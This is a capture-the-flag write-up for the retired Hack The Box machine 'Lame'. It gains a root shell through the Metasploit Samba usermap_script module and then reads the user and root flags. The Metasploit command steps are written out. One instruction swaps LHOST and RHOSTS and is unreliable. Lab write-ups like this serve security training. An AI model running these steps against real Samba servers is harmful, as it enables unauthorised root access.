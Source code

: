 # @author : M3tr1c_r00t
Lame is a Retired Hack the box Easy Machine

![Lame](https://user-images.githubusercontent.com/99975622/201052773-ca562c51-cb0c-4d9c-8183-0dd4b6734077.png)

Well, we start by enumarating the Machine:
![Screenshot_2022-11-09_20_58_23](https://user-images.githubusercontent.com/99975622/201049482-4b978a46-1d70-4868-97c6-ebfed2d03e5c.png)

We see that there is anonymous login but there is nothing important there.
 There is openssh though we need creds to login.
 
 Well, look at the smb Samba 3.0.20 - Debian in the host script discovery.
So lets visit our good old friend google and see what goodies are there...

![Screenshot_2022-11-09_20_59_08](https://user-images.githubusercontent.com/99975622/201050322-66f533c1-d1bd-47f7-9f3f-bb96e772ef9f.png)
 On clicking the samba vulnerabilities page, we can see on the public exploits page of the infosec website that we can use metasploit and try to see if we can gain access to the system 
 
 ![Screenshot_2022-11-09_20_59_30](https://user-images.githubusercontent.com/99975622/201050672-4bde789b-20fe-461b-b41e-4e16a324ab31.png)

So lets try this...

Run metasploit.
on metasploit: use exploit/multi/samba/usermap_script
then: show options
Set the LHOST to the hackthebox machine's IP
set RHOSTS to your IP
NB :If you dont know your IP, type ifconfig on the terminal then check the inet of tun0 or tun1.
Then set the RPORT to the port in which the smb server is open on the htb machine; which in our case according to the nmap scan is 445
![Screenshot_2022-11-09_21_04_35](https://user-images.githubusercontent.com/99975622/201051343-077b5a5d-e208-4e8f-9b30-087275736f75.png)


After setting all that, type: 'run' or 'exploit'
![Screenshot_2022-11-09_21_05_19](https://user-images.githubusercontent.com/99975622/201051744-08840251-68a4-45ca-8465-5fc25d014676.png)


after a while, type id to confirm the exploit works and you can see that you are root.
 
NB: You can upgrade the shell to a bash shell by typing shell.
lets find the user.txt flag
cd into /home/makis and you find the user flag.
![Screenshot_2022-11-09_21_06_04](https://user-images.githubusercontent.com/99975622/201052188-c46eb092-2602-4371-91c9-4069bbd62603.png)
cd into /root and cat root.txt to get the root flag.
![Screenshot_2022-11-09_21_06_24](https://user-images.githubusercontent.com/99975622/201052338-e6b2a061-23b0-467d-816b-29361b7ad6f9.png)

And done!
My socials:
          @ twitter: twitter.com/M3tr1c_root
          @ instagram: instagram.com/m3tr1c_r00t/


